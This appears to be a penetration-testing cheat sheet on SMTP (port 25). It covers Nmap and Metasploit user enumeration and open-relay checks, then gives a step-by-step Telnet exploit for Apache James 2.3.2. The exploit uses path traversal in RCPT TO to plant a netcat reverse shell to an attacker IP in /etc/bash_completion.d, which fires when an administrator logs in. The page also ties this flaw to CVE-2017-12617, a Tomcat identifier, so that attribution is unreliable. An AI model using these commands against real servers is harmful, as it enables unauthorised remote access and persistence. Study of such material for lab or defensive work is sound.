

<Callout type="info" title="Concept Overview">
**Simple Mail Transfer Protocol (SMTP)** operates on **TCP port 25**. It is used for sending emails. Misconfigured SMTP servers can leak valid usernames, act as open relays for spam, or in severe cases (like outdated Apache James servers), allow arbitrary file writes leading to Remote Code Execution (RCE).
</Callout>




---

## Nmap Scanning

<AccordionGroup>
  <Accordion title="Nmap NSE Scripts for SMTP">
    Use Nmap to enumerate users, check for open relays, and list supported SMTP commands.
    ```bash
    # Enumerate valid users (using VRFY, EXPN, or RCPT)
    nmap -p 25 --script smtp-enum-users x.x.x.x

    # Check if the server is an open relay
    nmap -p 25 --script smtp-open-relay x.x.x.x

    # List supported SMTP commands (EHLO)
    nmap -p 25 --script smtp-commands x.x.x.x
    ```
  </Accordion>
</AccordionGroup>

---

## Metasploit Enumeration

<Callout type="tip" title="MSFconsole SMTP Enum">
Automate username brute-forcing using built-in wordlists.
</Callout>

<AccordionGroup>
  <Accordion title="Metasploit Commands">
    ```ruby
    msfconsole
    msf6> use auxiliary/scanner/smtp/smtp_enum
    msf6> set RHOSTS x.x.x.x
    msf6> exploit
    ```
  </Accordion>
</AccordionGroup>

---

## Manual Exploitation: Apache James 2.3.2 RCE

<Callout type="danger" title="Arbitrary File Write via SMTP (CVE-2017-12617)">
Older versions of Apache James (like 2.3.2) allow unauthenticated users to write arbitrary files to the filesystem by using path traversal in the `RCPT TO` field. By writing a reverse shell payload to `/etc/bash_completion.d/`, it will be executed automatically when a user (like root) logs into the system via bash.
</Callout>

<Steps>
  <Step title="Step 1: Connect via Telnet">
    ```bash
    telnet example.com 25
    ```
  </Step>
  <Step title="Step 2: Execute the Exploit Payload">
    Type the following commands carefully into the Telnet prompt. Replace `10.10.14.12 1234` with your attacker IP and listener port.
    <AccordionGroup>
      <Accordion title="Telnet Commands">
        ```text
        EHLO example.com

        MAIL FROM: <user.family@example.com>

        RCPT TO: <../../../../../../../../etc/bash_completion.d>

        DATA
        FROM: user.family.example.com

        /bin/nc -e /bin/bash 10.10.14.12 1234
        .
        quit
        ```
      </Accordion>
    </AccordionGroup>
  </Step>
  <Step title="Step 3: Start a Netcat Listener">
    Wait for an administrator to log in to the target system. When they do, `bash_completion.d` triggers your payload.
    ```bash
    nc -lvnp 1234
    ```
  </Step>
</Steps>

<Callout type="warning" title="Telnet Command Breakdown">
* `EHLO`: Greets the server and requests extended SMTP commands.
* `MAIL FROM`: Defines the sender (can be spoofed).
* `RCPT TO`: Defines the recipient. Here, we use `../` to traverse out of the default mail directory and target the system's bash completion directory.
* `DATA`: Starts the email body where the malicious payload is placed.
* `.` (Dot): Signals the end of the email data and tells the server to process the message.
</Callout>
